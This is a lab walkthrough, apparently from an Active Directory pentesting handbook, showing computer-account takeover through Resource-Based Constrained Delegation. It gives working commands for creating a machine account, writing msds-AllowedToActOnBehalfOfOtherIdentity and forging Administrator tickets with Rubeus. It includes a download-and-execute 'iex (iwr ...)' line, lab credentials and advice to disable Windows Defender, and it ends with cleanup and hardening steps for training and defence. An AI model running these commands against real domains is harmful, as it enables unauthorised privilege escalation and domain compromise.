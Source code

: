 # Computeraccount Takeover

## Configuring

### Prerequisite

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

### Configuring

Nothing need to be configured to abuse this since we set the GenericAll permissions during the "Owns" section. If you would like to configure this it can be configured the same way as we configured "Write Owner".

## Attacking

### How it works

Is you have GenericAll or GenericWrite rights to a computer object you can write to the attribute `msds-AllowedToActOnBehalfOfOtherIdentity`. If you control this attribute you can impersonate and authenticate as any domain user to the computer. Resulting in getting access to the computer as long as you can impersonate a user that has access too it. Users with the flag "This account is senstitive and cannot be delegated" or members of the "Protected Users Group" can't be impersonated.

### Tools

* [PowerMad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)

### Executing the attack

#### Prereqesuite

* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* A user with write privileges over the target computer which doesn't have msds-AllowedToActOnBehalfOfOtherIdentity

#### Executing the attack

1. It is expected that the GenericAll permissions during the ACL abuses "Write Owner" and "Owns" are set for the `sa_sql` user. This attack will continue from there:

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

2\. First we will check that the target doesn't have the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute set.

```
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 Data01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](<../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1).png>)

The attribute haven't been set yet.

3\. Add the following to the `/etc/hosts` file on Kali otherwise the Crackmapexec command will fail:

```
10.0.0.100 secure.local
10.0.0.100 dc03
10.0.0.100 dc03.secure.local
```

4\. Check if we can add computers to the domain since its a requirement for the attack. We can get the machine account qouta from the domain with Crackmapexec:

```
crackmapexec ldap 10.0.0.100 -u sa_sql -p Iloveyou2 -M MAQ
```

![](<../../../../.gitbook/assets/image (48) (1).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

5\. Create a machine account with the name `FAKE01` and password `123456` with PowerMad:

```
iex (iwr http://192.168.248.2:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -Domain secure.local -Credential $creds -DomainController 10.0.0.100 -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../../.gitbook/assets/image (67) (1) (1) (1) (1) (1).png>)

6\. Get the SID of the computerobject we created:

```
Get-DomainComputer fake01 -Domain secure.local -Credential $creds -Server 10.0.0.100
```

![](<../../../../.gitbook/assets/image (55) (1) (1) (1).png>)

7\. Now we need to create the raw security descriptor which we then will write to the attribute:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1498997062-1091976085-892328878-1108)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

{% hint style="info" %}
Make sure you changed the SID since it can differ in your lab.
{% endhint %}

![](<../../../../.gitbook/assets/image (49).png>)

8\. Now we can write as `sa_sql` to the `msds-allowedtoactonbehalfofotheridentity` attribute of the computerobject `DATA01`:

```
Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 | Set-DomainObject -Domain secure.local -Credential $creds -Server 10.0.0.100 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](<../../../../.gitbook/assets/image (66) (1) (1) (1).png>)

9\. Seems like it worked, now we can check the value of the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute by saving it in a variable and doing some powershell confu to decrypt it:

```
$RawBytes = Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 <SID>
```

![](<../../../../.gitbook/assets/image (52).png>)

10\. `FAKE01` can impersonate any user now to `DATA01`. To do this we first need to calculate the NTLM hash for the `FAKE01` password, we can do this with Rubeus.

```
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:secure.local
```

![](<../../../../.gitbook/assets/image (72) (1) (1) (1) (1) (1).png>)

{% hint style="info" %}
Temporarily disable Windows Defender if it gets flagged by it.
{% endhint %}

11\. The next step is to run Rubeus to impersonate the `Administrator` user using the `FAKE01` Computeraccount. Abusing Resource Based Constrained Delegation. We will request a CIFS ticket so we can list the C disk.

```
.\Rubeus.exe s4u /domain:secure.local /dc:10.0.0.100 /user:fake01 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:CIFS/data01.secure.local /ptt
```

![](<../../../../.gitbook/assets/image (33) (1).png>)

![](<../../../../.gitbook/assets/image (59).png>)

12\. We got a CIFS ticket as `Administrator` for `data01.secure.local`, now we can try to list the C disk.

![](<../../../../.gitbook/assets/image (61) (1) (1).png>)

### Cleanup

1. Login to `DC03` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `DATA01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity data01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}
